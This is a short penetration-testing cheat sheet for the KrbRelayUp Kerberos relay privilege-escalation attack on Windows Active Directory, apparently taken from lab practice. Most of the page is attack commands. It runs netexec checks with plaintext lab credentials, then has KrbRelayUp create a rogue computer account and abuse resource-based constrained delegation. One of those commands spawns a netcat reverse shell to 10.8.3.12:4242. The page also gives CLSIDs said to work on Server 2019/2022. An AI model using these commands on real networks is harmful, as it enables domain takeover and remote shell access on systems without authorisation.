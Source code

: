 ```yaml
---
title: "KrbRelaiUp"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
---
```


- Tool : https://github.com/Dec0ne/KrbRelayUp

- Check if exploitable : 
```sh
netexec ldap brunodc.bruno.vl -u "svc_scan" -p "Sunshine1" -M ldap-checker
# LDAP Signing NOT Enforced!

netexec ldap brunodc.bruno.vl -u "svc_scan" -p "Sunshine1" -M maq
#MachineAccountQuota: 10
```

- Exploit with a tool : 
```powershell
.\KrbRelayUp.exe relay brunodc.bruno.vl -CreateNewComputerAccount -ComputerName pwned$ -ComputerPassword P@ssword1234 -cls <CLS>
```

```powershell
./KrbRelayUp spawn -m rbcd --DomainController brunodc.bruno.vl -cn pwned$ -cp P@ssword1234 --sc "C:\Users\svc_scan\Documents\nc.exe 10.8.3.12 4242 -e cmd"
```

- Find a CLSID for a specific OS (as admin on a comparable machine to your target):
https://github.com/tyranid/oleviewdotnet
```sh
Import-Module .\OleViewDotNet.psd1
Get-ComDatabase -SetCurrent
$comdb = Get-CurrentComDatabase
$clsids = (Get-ComClass).clsid

Get-ComProcess -DbgHelpPath 'C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\dbghelp.dll' 
```

**CLSIDs** (confirmed working on Server 2019/2022 with ADCS installed):

- c980e4c2-c178-4572-935d-a8a429884806
- 90f18417-f0f1-484e-9d3c-59dceee5dbd8
- 03ca98d6-ff5d-49b8-abc6-03dd84127020
- d99e6e73-fc88-11d0-b498-00a0c90312f3 (certsrv.exe)
- 42cbfaa7-a4a7-47bb-b422-bd10e9d02700
- 000c101c-0000-0000-c000-000000000046
- 1b48339c-d15e-45f3-ad55-a851cb66be6b
- 49e6370b-ab71-40ab-92f4-b009593e4518
- 50d185b9-fff3-4656-92c7-e4018da4361d
- 3c6859ce-230b-48a4-be6c-932c0c202048 (trusted installer service)


- Ressource: 
https://vulndev.io/cheats-windows/
